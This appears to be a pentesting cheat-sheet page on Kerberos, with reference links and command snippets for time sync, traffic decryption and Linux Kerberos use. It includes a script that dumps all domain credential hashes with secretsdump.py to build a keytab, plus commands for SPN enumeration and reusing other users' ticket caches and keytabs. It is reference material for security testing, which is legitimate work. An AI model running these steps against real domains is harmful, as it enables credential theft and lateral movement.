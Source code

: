 # Kerberos

- [https://www.roguelynn.com/words/explain-like-im-5-kerberos/](https://www.roguelynn.com/words/explain-like-im-5-kerberos/)
- [https://vbscrub.com/2020/05/13/kerberos-protocol-explained/](https://vbscrub.com/2020/05/13/kerberos-protocol-explained/)
- [https://www.tarlogic.com/en/blog/how-kerberos-works/](https://www.tarlogic.com/en/blog/how-kerberos-works/)
- [https://www.tarlogic.com/en/blog/how-to-attack-kerberos/](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)
- [https://www.tarlogic.com/en/blog/kerberos-iii-how-does-delegation-work/](https://www.tarlogic.com/en/blog/kerberos-iii-how-does-delegation-work/)
- [https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- [https://habr.com/ru/company/tomhunter/blog/507140/](https://habr.com/ru/company/tomhunter/blog/507140/)
- [https://habr.com/ru/company/tomhunter/blog/509290/](https://habr.com/ru/company/tomhunter/blog/509290/)
- [https://ardent101.github.io/posts/kerberos_theory/](https://ardent101.github.io/posts/kerberos_theory/)
- [https://ardent101.github.io/posts/kerberos_general_attacks/](https://ardent101.github.io/posts/kerberos_general_attacks/)
- [https://habr.com/ru/articles/803163/](https://habr.com/ru/articles/803163/)

{% embed url="https://youtu.be/qZPvgoUzCdI" %}




## Synchronize Time

Using `ntpdate`:

```
$ sudo apt install ntpdate -y
$ sudo ntpdate $DC
```

Using `faketime`:

```
$ sudo apt install faketime -y
$ faketime '1970-01-01 00:00:00' /bin/date
$ faketime "`ntpdate -q $DC | awk -F. '{print $1}'`" /bin/date
```




## Decrypt KRB5 Traffic

- [https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/](https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/)
- [https://medium.com/tenable-techblog/decrypt-encrypted-stub-data-in-wireshark-deb132c076e7](https://medium.com/tenable-techblog/decrypt-encrypted-stub-data-in-wireshark-deb132c076e7)

{% code title="keytab.sh" %}
```bash
REALM='MEGACORP.LOCAL'
secretsdump.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local -just-dc | tee secretsdump.out

# ---

cat secretsdump.out | grep aad3b435 | awk -F: '{print "    (23, '\''"$4"'\''),"}' > keys
cat secretsdump.out | grep aes256-cts-hmac-sha1-96 | awk -F: '{print "    (18, '\''"$3"'\''),"}' >> keys
curl -sSL https://github.com/dirkjanm/forest-trust-tools/raw/6bfeb990f0db8a580afe5cbba3cce1bf959a7fb8/keytab.py > keytab.py
awk 'NR <= 112' keytab.py > t
cat keys >> t
awk 'NR >= 118' keytab.py >> t
sed -i "s/TESTSEGMENT.LOCAL/${REALM}/g" t
mv t keytab.py
python3 keytab.py keytab.kt
```
{% endcode %}




## Manual Tickets Injection

- [https://github.com/OtterHacker/Cerbere](https://github.com/OtterHacker/Cerbere)
- [https://xakep.ru/2023/04/04/no-mimikatz/](https://xakep.ru/2023/04/04/no-mimikatz/)
- [https://github.com/MzHmO/articles/tree/main/Ticket%20Injector](https://github.com/MzHmO/articles/tree/main/Ticket%20Injector)
- [https://github.com/MzHmO/PowershellKerberos](https://github.com/MzHmO/PowershellKerberos)




## Kerberos on Linux

- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory)

Check `KRB5CCNAME` environment variable contents:

```
$ env | grep KRB5
```

Request TGT supplying password:

```
$ kinit
$ klist
```

List available SPNs:

```
$ ldapsearch -Y GSSAPI -H ldap://dc1.megacorp.local -D "Administrator@MEGACORP.LOCAL" -W -b "dc=megacorp,dc=local" "servicePrincipalName=*" servicePrincipalName
```

Request TGS for MSSQL service:

```
$ kvno MSSQLSvc/SRV01.megacorp.local:1433
$ klist
```

Re-using keytab files to load and renew a TGT:

```
$ kinit administrator@MEGACORP.LOCAL -k -t /tmp/administrator.keytab
$ klist
$ kinit -R
```

Re-using ccache files:

```
$ sudo chown snovvcrash:snovvcrash /tmp/krb5cc_31337
$ kdestroy
$ export KRB5CCACHE=/tmp/krb5cc_31337
$ klist
```



### FreeIPA

- [https://tishina.in/ops/freeipa-postexploitation](https://tishina.in/ops/freeipa-postexploitation)

A blog series by [@n0pe_sled](https://medium.com/@n0pe_sled) on attacking FreeIPA:

- [Building a FreeIPA Lab](https://posts.specterops.io/building-a-freeipa-lab-17f3f52cd8d9)
- [Attacking FreeIPA — Part I Authentication](https://posts.specterops.io/attacking-freeipa-part-i-authentication-77e73d837d6a)
- [Attacking FreeIPA — Part II Enumeration](https://posts.specterops.io/attacking-freeipa-part-ii-enumeration-ad27224371e1)
- [Attacking FreeIPA — Part III: Finding A Path](https://posts.specterops.io/attacking-freeipa-part-iii-finding-a-path-677405b5b95e)
- [Attacking FreeIPA — Part IV: CVE-2020–10747](https://posts.specterops.io/attacking-freeipa-part-iv-cve-2020-10747-7c373a1bf66b)
- [https://book.hacktricks.xyz/linux-hardening/freeipa-pentesting](https://book.hacktricks.xyz/linux-hardening/freeipa-pentesting)
